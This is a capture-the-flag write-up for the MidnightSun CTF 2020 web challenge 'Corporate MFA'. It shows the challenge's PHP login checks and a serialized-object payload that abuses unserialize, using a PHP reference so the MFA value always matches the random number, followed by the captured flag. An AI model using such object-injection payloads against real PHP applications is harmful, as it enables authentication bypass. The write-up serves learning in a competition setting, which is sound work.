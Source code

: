 Corporate MFA: Web - MidnightSun CTF 2020
===
Played with [npi](https://twitter.com/n0pwnintended)!!

## The challenge
Only a login page. To print flag we need to guess a password (we only know its hash) and a random int.
```php
    private function verifyUsername()
	{
		return $this->userData->username === 'D0loresH4ze';
	}

	private function verifyPassword()
	{
		return password_verify($this->userData->password, '$2y$07$BCryptRequires22Chrcte/VlQH0piJtjXl.0t1XkA8pw9dMXTpOq');
	}

	private function verifyMFA()
	{
		$this->userData->_correctValue = random_int(1e10, 1e11 - 1);
		return (int)$this->userData->mfa === $this->userData->_correctValue;
	}
```

## Exploit
Okay, after some googling (simply copy and paste hash on google), we found [password](https://www.php.net/manual/en/function.password-verify.php): 
![Password](images/password.png)

Need to guess random number.

### Unserialize
We can controls the userdata vars trought unserialize function.
The service computes random int and puts it in _correctValue
```php
$this->userData->_correctValue = random_int(1e10, 1e11 - 1);
```
Good!Try to Put a reference to this field in payload
```
O:8:"stdClass":4:{s:8:"username";s:11:"D0loresH4ze";s:8:"password";s:13:"rasmuslerdorf";s:13:"_correctValue";i:0;s:3:"mfa";R:4;}
```
It works: ```midnight{395E160F-4DB8-4D7A-99EF-08E6799741B5}```
